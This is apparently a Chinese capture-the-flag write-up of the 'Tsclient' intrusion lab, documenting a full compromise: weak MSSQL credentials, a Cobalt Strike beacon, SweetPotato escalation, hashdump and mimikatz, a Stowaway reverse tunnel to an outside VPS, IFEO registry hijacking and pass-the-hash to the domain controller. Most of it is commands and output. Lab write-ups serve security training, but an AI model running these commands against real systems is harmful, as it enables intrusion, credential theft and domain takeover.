

# Tsclient

> https://yunjing.ichunqiu.com/major/detail/1072?type=1 |
> 



分几次打，外网IP为：`39.98.110.115`，`39.99.143.130` 等…

## 前期踩点

直接 `fscan` 扫一波

```bash
⚡ root@kali  ~/Desktop/Tools  ./fscan -h 39.98.110.115
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-03-21 07:04:17] [INFO] 暴力破解线程数: 1
[2025-03-21 07:04:17] [INFO] 开始信息扫描
[2025-03-21 07:04:17] [INFO] 最终有效主机数量: 1
[2025-03-21 07:04:17] [INFO] 开始主机扫描
[2025-03-21 07:04:17] [INFO] 有效端口数量: 233
[2025-03-21 07:04:17] [SUCCESS] 端口开放 39.98.110.115:110
[2025-03-21 07:04:17] [SUCCESS] 端口开放 39.98.110.115:1433
[2025-03-21 07:04:17] [SUCCESS] 端口开放 39.98.110.115:80
[2025-03-21 07:04:19] [SUCCESS] 服务识别 39.98.110.115:110 => 
[2025-03-21 07:04:22] [SUCCESS] 服务识别 39.98.110.115:1433 => [ms-sql-s] 版本:13.00.1601 产品:Microsoft SQL Server 2016 系统:Windows Banner:[.%.A.]
[2025-03-21 07:04:22] [SUCCESS] 服务识别 39.98.110.115:80 => [http]
[2025-03-21 07:04:27] [INFO] 存活端口数量: 3
[2025-03-21 07:04:27] [INFO] 开始漏洞扫描
[2025-03-21 07:04:27] [INFO] 加载的插件: mssql, pop3, webpoc, webtitle
[2025-03-21 07:04:27] [SUCCESS] 网站标题 http://39.98.110.115      状态码:200 长度:703    标题:IIS Windows Server
[2025-03-21 07:04:40] [SUCCESS] MSSQL 39.98.110.115:1433 sa 1qaz!QAZ
```

直接给`MSSQL`弱密码给干出来了`1qaz!QAZ` 

## MSSQL 利用

直接使用`MDUT`进行利用，直接`Getshell`


在文件管理处上传 CS 马到 `C:/迅雷下载/`，运行上线 CS


执行后可以看到上线CS了


## SweetPotato

上线后我们将要进行提权，方便后面操作

尝试使用`SweetPotato`进行提权，工具链接：https://github.com/uknowsec/SweetPotato （使用 CS 上的甜土豆插件不能正常使用）

上传后进行测试，成功回显，并且是管理员权限

```bash
C:/迅雷下载/SweetPotato.exe -a whoami
```


通过甜土豆运行之前上传的 CS 马

```bash
C:/迅雷下载/SweetPotato.exe -a "C:/迅雷下载/beacon_x64.exe"
```

这样就能收到 `SYSTEM beacon` 了


能通过当前 `shell` 来获得 `flag1`

```bash
beacon> shell type C:\users\administrator\flag\flag01.txt
[*] Tasked beacon to run: type C:\users\administrator\flag\flag01.txt
[+] host called home, sent: 74 bytes
[+] received output:
 _________  ________  ________  ___       ___  _______   ________   _________   
|\___   ___\\   ____\|\   ____\|\  \     |\  \|\  ___ \ |\   ___  \|\___   ___\ 
\|___ \  \_\ \  \___|\ \  \___|\ \  \    \ \  \ \   __/|\ \  \\ \  \|___ \  \_| 
     \ \  \ \ \_____  \ \  \    \ \  \    \ \  \ \  \_|/_\ \  \\ \  \   \ \  \  
      \ \  \ \|____|\  \ \  \____\ \  \____\ \  \ \  \_|\ \ \  \\ \  \   \ \  \ 
       \ \__\  ____\_\  \ \_______\ \_______\ \__\ \_______\ \__\\ \__\   \ \__\
        \|__| |\_________\|_______|\|_______|\|__|\|_______|\|__| \|__|    \|__|
              \|_________|                                                      

Getting flag01 is easy, right?
flag01: flag{19ee19b2-51de-456d-9f5f-814139df9aed}
Maybe you should focus on user sessions...
```

提示：Maybe you should focus on user sessions...  也许你应该关注用户会话...…

## 信息收集 - 1

根据提示查看用户等信息，存在一个`John`用户

```bash
beacon> shell net user
[*] Tasked beacon to run: net user
[+] host called home, sent: 39 bytes
[+] received output:

\\ 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
John                     
命令运行完毕，但发生一个或多个错误。
```

并且该主机不是域内主机

```bash
beacon> shell net view /domain
[*] Tasked beacon to run: net view /domain
[+] host called home, sent: 47 bytes
[+] received output:
发生系统错误 6118。

此工作组的服务器列表当前无法使用
```

因为我们是SYSTEM权限，所以可以直接`Dump HASH`

```bash
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82541 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::
```

打开进程列表，查看是否存在 John 用户起的进程


我们选择一个进行注入，注入后会多出来新的会话


进行会话交互，进行信息收集

发现在在共享文件夹中可以发现一个与靶场名称相同的共享文件夹（**远程桌面重定向（RDP 文件夹映射）**，也叫 **远程桌面剪贴板共享**）

```bash
beacon> shell net use
[*] Tasked beacon to run: net use
[+] host called home, sent: 38 bytes
[+] received output:
会记录新的网络连接。

状态       本地        远程                      网络

-------------------------------------------------------------------------------
                       \\TSCLIENT\C              Microsoft Terminal Services
命令成功完成。

beacon> shell dir \\TSCLIENT\c
[*] Tasked beacon to run: dir \\TSCLIENT\c
[+] host called home, sent: 47 bytes
[+] received output:
 驱动器 \\TSCLIENT\c 中的卷没有标签。
 卷的序列号是 C2C5-9D0C

 \\TSCLIENT\c 的目录

2022/07/12  10:34                71 credential.txt
2022/05/12  17:04    <DIR>          PerfLogs
2022/07/11  12:53    <DIR>          Program Files
2022/05/18  11:30    <DIR>          Program Files (x86)
2022/07/11  12:47    <DIR>          Users
2022/07/11  12:45    <DIR>          Windows
               1 个文件             71 字节
               5 个目录 30,037,798,912 可用字节
```

可以发现存在令人感兴趣的 `credential.txt` ，读取

```bash
beacon> shell type \\TSCLIENT\C\credential.txt
[*] Tasked beacon to run: type \\TSCLIENT\C\credential.txt
[+] host called home, sent: 63 bytes
[+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```

得到一组用户名和密码`Aldrich:Ald@rLMWuy7Z!#` （后面可以用于密码喷洒） ，并且能知道域是`xiaorang.lab` ，还有一个提示：`Do you know how to hijack Image?`

我们再继续对内网信息进行收集

得到内网网段`172.22.8.0`

```bash
beacon> shell ipconfig
[*] Tasked beacon to run: ipconfig
[+] host called home, sent: 39 bytes
[+] received output:

Windows IP 配置

以太网适配器 以太网:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::b4f9:abb7:52c4:b6ca%14
   IPv4 地址 . . . . . . . . . . . . : 172.22.8.18
   子网掩码  . . . . . . . . . . . . : 255.255.0.0
   默认网关. . . . . . . . . . . . . : 172.22.255.253

隧道适配器 isatap.{E309DFD0-37D7-4E89-A23A-3C61210B34EA}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 Teredo Tunneling Pseudo-Interface:

   连接特定的 DNS 后缀 . . . . . . . : 
   IPv6 地址 . . . . . . . . . . . . : 2001:0:348b:fb58:244b:245c:d89d:918c
   本地链接 IPv6 地址. . . . . . . . : fe80::244b:245c:d89d:918c%12
   默认网关. . . . . . . . . . . . . : ::
```

## 搭建隧道

我们需要对内网进行 `fscan` 扫描，需要进行搭建内网隧道才能访问到内网网段（通过 CS 运行也可以，但是后面也是要进行搭建的）

使用`stowaway`来搭建

首先上传`agent`到靶机


如何在VPS上运行

```bash
[root@ admin]# ./linux_x64_admin -l 1081 -s 123
```

通过 CS 在靶机上运行

```bash
beacon> shell C:\windows_x64_agent.exe -c 8.134.163.255:1081 -s 123 -reconnect 8
```

运行后在VPS上能收到

```bash
[*] Starting admin node on port 1081

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)    
   '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 39.99.143.130:51397 is set up successfully! Node id is 0
(admin) >> 
```

VPS 在1080端口上开启`socks`代理服务器

```bash
(admin) >> detail
Node[0] -> IP: 39.99.143.130:51397  Hostname: WIN-WEB  User: nt authority\system
Memo: 

(admin) >> use 0
(node 0) >> help
        help                                            Show help information
        status                                          Show node status,including socks/forward/backward
        listen                                          Start port listening on current node
        addmemo    <string>                             Add memo for current node
        delmemo                                         Delete memo of current node
        ssh        <ip:port>                            Start SSH through current node
        shell                                           Start an interactive shell on current node
        socks      <lport> [username] [pass]            Start a socks5 server
        stopsocks                                       Shut down socks services
        connect    <ip:port>                            Connect to a new node
        sshtunnel  <ip:sshport> <agent port>            Use sshtunnel to add the node into our topology
        upload     <local filename> <remote filename>   Upload file to current node
        download   <remote filename> <local filename>   Download file from current node
        forward    <lport> <ip:port>                    Forward local port to specific remote ip:port
        stopforward                                     Shut down forward services
        backward    <rport> <lport>                     Backward remote port(agent) to local port(admin)
        stopbackward                                    Shut down backward services
        shutdown                                        Terminate current node
        back                                            Back to parent panel
        exit                                            Exit Stowaway
  
(node 0) >> socks 1080 admin admin
[*] Trying to listen on 0.0.0.0:1080......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

`kali` 进行连接，首先修改`proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwile
# 
# defaults set to "tor"
socks5  8.134.163.255   1080    admin   admin
```

测试是否成功

```bash
⚡ root@kali  ~/Desktop/test/Tsclient  proxychains4 curl 172.22.8.18
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  8.134.163.255:1080  ...  172.22.8.18:80  ...  OK
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS Windows Server</title>
<style type="text/css">
<!--
body {
        color:#000000;
        background-color:#0072C6;
        margin:0;
}

#container {
        margin-left:auto;
        margin-right:auto;
        text-align:center;
        }

a img {
        border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
</div>
</body>
</html>#                                                                                                          
```

## 信息收集 - 2

上传 fscan 到靶机进行扫描

```bash
beacon> shell C:\fscan.exe -h 172.22.8.0/24

╔════════════════════════════════════════════════════════╗
║    ___                              _                 ║
║   / _ \     ___  ___ _ __ __ _  ___| | __            ║
║  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /            ║
║ / /_\\_____\__ \ (__| | | (_| | (__|   <             ║
║ \____/     |___/\___|_|  \__,_|\___|_|\_\            ║
╚════════════════════════════════════════════════════════╝
      Fscan Version: 2.0.0

[2025-03-22 09:40:14] [INFO] 并发扫描线程数: 1
[2025-03-22 09:40:14] [INFO] 开始信息收集
[2025-03-22 09:40:14] [INFO] CIDR范围: 172.22.8.0-172.22.8.255
[2025-03-22 09:40:14] [INFO] 解析CIDR 172.22.8.0/24 -> IP范围 172.22.8.0-172.22.8.255
[2025-03-22 09:40:14] [INFO] 可用主机总数: 256
[2025-03-22 09:40:14] [INFO] 开始主机探测
[2025-03-22 09:40:14] [SUCCESS] 目标 172.22.8.18     存活 (ICMP)
[2025-03-22 09:40:17] [SUCCESS] 目标 172.22.8.15     存活 (ICMP)
[2025-03-22 09:40:17] [SUCCESS] 目标 172.22.8.31     存活 (ICMP)
[2025-03-22 09:40:17] [SUCCESS] 目标 172.22.8.46     存活 (ICMP)
[2025-03-22 09:40:17] [INFO] 存活主机数量: 4
[2025-03-22 09:40:17] [INFO] 有效端口数量: 233
[2025-03-22 09:40:17] [SUCCESS] 端口开放 172.22.8.15:88
[2025-03-22 09:40:17] [SUCCESS] 端口开放 172.22.8.46:80
[2025-03-22 09:40:17] [SUCCESS] 端口开放 172.22.8.18:80
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.15:389
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.46:139
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.31:139
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.15:139
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.31:135
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.46:135
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.18:139
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.15:135
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.18:135
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.31:445
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.46:445
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.15:445
[2025-03-22 09:40:18] [SUCCESS] 端口开放 172.22.8.18:445
[2025-03-22 09:40:20] [SUCCESS] 端口开放 172.22.8.18:1433

[+] received output:
[2025-03-22 09:40:22] [SUCCESS] 服务识别 172.22.8.15:88 => 
[2025-03-22 09:40:23] [SUCCESS] 服务识别 172.22.8.18:80 => [http]

[+] received output:
[2025-03-22 09:40:23] [SUCCESS] 服务识别 172.22.8.46:80 => [http]

[+] received output:
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.46:139 =>  Banner:[.]
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.31:139 =>  Banner:[.]

[+] received output:
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.15:139 =>  Banner:[.]
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.18:139 =>  Banner:[.]

[+] received output:
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.31:445 => 
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.46:445 => 
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.15:445 => 
[2025-03-22 09:40:24] [SUCCESS] 服务识别 172.22.8.18:445 => 

[+] received output:
[2025-03-22 09:40:25] [SUCCESS] 服务识别 172.22.8.18:1433 => [ms-sql-s] 版本:13.00.1601 产品:Microsoft SQL Server 2016 系统:Windows Banner:[.%.A.]

[+] received output:
[2025-03-22 09:40:28] [SUCCESS] 服务识别 172.22.8.15:389 => 

[+] received output:
[2025-03-22 09:41:24] [SUCCESS] 服务探测 172.22.8.31:135 => 

[+] received output:
[2025-03-22 09:41:24] [SUCCESS] 服务探测 172.22.8.46:135 => 
[2025-03-22 09:41:24] [SUCCESS] 服务探测 172.22.8.15:135 => 
[2025-03-22 09:41:24] [SUCCESS] 服务探测 172.22.8.18:135 => 
[2025-03-22 09:41:24] [INFO] 存活端口数量: 17

[+] received output:
[2025-03-22 09:41:24] [INFO] 开始主动探测
[2025-03-22 09:41:24] [INFO] 加载的插件: findnet, ldap, ms17010, mssql, netbios, smb, smb2, smbghost, webpoc, webtitle
[2025-03-22 09:41:24] [SUCCESS] NetInfo 扫描结果
目标主机: 172.22.8.31
主机名: WIN19-CLIENT
发现的网络接口:
   IPv4地址:
      ➤ 172.22.8.31
[2025-03-22 09:41:24] [SUCCESS] 网站标题 http://172.22.8.46        状态码: 200 长度: 703    标题: IIS Windows Server
[2025-03-22 09:41:24] [SUCCESS] NetInfo 扫描结果
目标主机: 172.22.8.46
主机名: WIN2016
发现的网络接口:
   IPv4地址:
      ➤ 172.22.8.46
[2025-03-22 09:41:24] [SUCCESS] NetInfo 扫描结果
目标主机: 172.22.8.18
主机名: WIN-WEB
发现的网络接口:
   IPv4地址:
      ➤ 172.22.8.18
   IPv6地址:
      ➤ 2001:0:348b:fb58:18ce:928:d89c:707d
[2025-03-22 09:41:24] [SUCCESS] NetInfo 扫描结果
目标主机: 172.22.8.15
主机名: DC01
发现的网络接口:
   IPv4地址:
      ➤ 172.22.8.15
[2025-03-22 09:41:24] [SUCCESS] NetBios 172.22.8.15     DC:XIAORANG\DC01           
[2025-03-22 09:41:24] [SUCCESS] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393

[+] received output:
[2025-03-22 09:41:24] [SUCCESS] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT         
[2025-03-22 09:41:24] [SUCCESS] 网站标题 http://172.22.8.18        状态码: 200 长度: 703    标题: IIS Windows Server

[+] received output:
[2025-03-22 09:41:25] [SUCCESS] MSSQL 172.22.8.18:1433 sa 1qaz!QAZ

[+] received output:
[2025-03-22 09:41:47] [SUCCESS] 扫描已完成: 32/32

```

**1. 存活主机**

扫描发现了 4 台存活的主机：

- **172.22.8.15** (DC01)
- **172.22.8.18** (WIN-WEB)
- **172.22.8.31** (WIN19-CLIENT)
- **172.22.8.46** (WIN2016)

**2. 开放端口**

主要的开放端口如下：

- **Web 服务（HTTP）**
    - `172.22.8.18:80` (IIS Windows Server)
    - `172.22.8.46:80` (IIS Windows Server)
- **Microsoft SQL Server**
    - `172.22.8.18:1433`
    - **成功爆破**：用户名 `sa`，密码 `1qaz!QAZ`
- **Windows 相关端口**
    - `88` (Kerberos) - `172.22.8.15`
    - `389` (LDAP) - `172.22.8.15`
    - `135` (RPC) - 多个主机
    - `139, 445` (SMB) - 多个主机
    - `139, 445` (NetBIOS) - `172.22.8.15, 172.22.8.31, 172.22.8.46`

到这里开始我们能知道**`172.22.8.15`**是`DC`

之前通过`credential.txt` 的到一组用户密码`Aldrich:Ald@rLMWuy7Z!#` ，我们用其进行密码喷洒


提示密码过期

先尝试 RDP，发现`31` 和 `46` 可以进行连接


输入密码时提示密码过期，但是又不能通过图形化界面修改（无权限）

通过 `smbpasswd` 来修改链接：https://github.com/Lex-Case/Impacket/blob/master/examples/smbpasswd.py

```bash
 proxychains4 -q python smbpasswd.py xiaorang.lab/'Aldrich':'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'sunset2131_'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

再通过`RDP`来连接，最后`31`没有远程登陆权限无法登录，`46`登陆成功

非常有限的权限，并且机器是不出网的


先将`46`上线`CS` 


## 镜像劫持

根据之前的提示：`Do you know how to hijack Image?` 感觉是要我们进行劫持镜像`IFEO`进行提权

打开`PowerShell`

```bash
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```


`HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 这个注册表键的访问权限如下：

- **所有者 (Owner)**：`NT AUTHORITY\SYSTEM`
- **组 (Group)**：`NT AUTHORITY\SYSTEM`
- **访问权限 (AccessToString)**：
    - `CREATOR OWNER`：完全控制 (`FullControl`)
    - `Authenticated Users`：允许 `SetValue`、`CreateSubKey`、`ReadKey`
    - `SYSTEM`：完全控制 (`FullControl`)
    - `Administrators`：完全控制 (`FullControl`)
    - `Users`：允许 `ReadKey`

修改注册表劫持镜像，劫持打开放大镜则以`admin`权限启动`cmd`

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

锁定电脑运行放大镜


通过管理员cmd运行CS马

```bash
C:\Users\Aldrich\Desktop\2.exe
```


成功上线


读取`Flag02`

```bash
beacon> shell type C:\users\administrator\flag\flag02.txt
[*] Tasked beacon to run: type C:\users\administrator\flag\flag02.txt
[+] host called home, sent: 74 bytes
[+] received output:
   . .    .       . .       . .       .      .       . .       . .       . .    .    
.+'|=|`+.=|`+. .+'|=|`+. .+'|=|`+. .+'|      |`+. .+'|=|`+. .+'|=|`+. .+'|=|`+.=|`+. 
|.+' |  | `+.| |  | `+.| |  | `+.| |  |      |  | |  | `+.| |  | `+ | |.+' |  | `+.| 
     |  |      |  | .    |  |      |  |      |  | |  |=|`.  |  |  | |      |  |      
     |  |      `+.|=|`+. |  |      |  |      |  | |  | `.|  |  |  | |      |  |      
     |  |      .    |  | |  |    . |  |    . |  | |  |    . |  |  | |      |  |      
     |  |      |`+. |  | |  | .+'| |  | .+'| |  | |  | .+'| |  |  | |      |  |      
     |.+'      `+.|=|.+' `+.|=|.+' `+.|=|.+' |.+' `+.|=|.+' `+.|  |.|      |.+'      

flag02: flag{cecb54ad-1f19-40a7-8830-9e7074e41150}
```

## 信息收集 - 3

对域内信息进行收集

因为是SYSTEM权限，直接`Dump hash`

```bash
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82541 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8e2eec0e9e0d89e1b046b696e0c2aef7:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

这里直接使用`BloodHound`进行域内信息分析

上传`SharpHound.exe` 运行并生成数据


使用`BloodHound`分析域内信息

惊奇的发现我们主机在与管理员组中


## PTH

发现`win2016$`在域管组里，即机器账户可以Hash传递登录域控

Dump `win2016$` 的hash，`80b757e0c26a39a49c8d5b7dcf31c00a`

```bash
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 312954 bytes
[+] received output:

Authentication Id : 0 ; 10797205 (00000000:00a4c095)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/3/22 10:24:13
SID               : S-1-5-90-0-2
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : 80b757e0c26a39a49c8d5b7dcf31c00a
	 * SHA1     : 90feab478c5b4e0071943be53bed5844e7d60752
```

直接`PTH`

```bash
proxychains4 wmiexec.py -hashes :80b757e0c26a39a49c8d5b7dcf31c00a xiaorang.lab/WIN2016\$@172.22.8.15 -codec gbk
```


读取`flag`

```bash
C:\users\administrator\flag>type flag03.txt
 _________               __    _                  _    
|  _   _  |             [  |  (_)                / |_  
|_/ | | \_|.--.   .---.  | |  __  .---.  _ .--. `| |-' 
    | |   ( (`\] / /'`\] | | [  |/ /__\\[ `.-. | | |   
   _| |_   `'.'. | \__.  | |  | || \__., | | | | | |,  
  |_____| [\__) )'.___.'[___][___]'.__.'[___||__]\__/  

Congratulations! ! !

flag03: flag{10cad99f-d466-4a30-a394-10b7936006b9}
```

通过`psexec`也可以，主要看开启了什么端口

```bash
 root@kali  ~/Desktop/test/Tsclient  proxychains4 psexec.py xiaorang.lab/WIN2016\$@172.22.8.15 -hashes :80b757e0c26a39a49c8d5b7dcf31c00a -codec gbk
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  8.134.163.255:1080  ...  172.22.8.15:445  ...  OK
[*] Requesting shares on 172.22.8.15.....
[*] Found writable share ADMIN$
[*] Uploading file kXCfYcAY.exe
[*] Opening SVCManager on 172.22.8.15.....
[*] Creating service RHmr on 172.22.8.15.....
[*] Starting service RHmr.....
[proxychains] Strict chain  ...  8.134.163.255:1080  ...  172.22.8.15:445  ...  OK
[proxychains] Strict chain  ...  8.134.163.255:1080  ...  172.22.8.15:445 [!] Press help for extra shell commands
 ...  OK
[proxychains] Strict chain  ...  8.134.163.255:1080  ...  172.22.8.15:445  ...  OK
Microsoft Windows [版本 10.0.20348.707]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> 
```

## 总结

不算难，但是知识挺杂的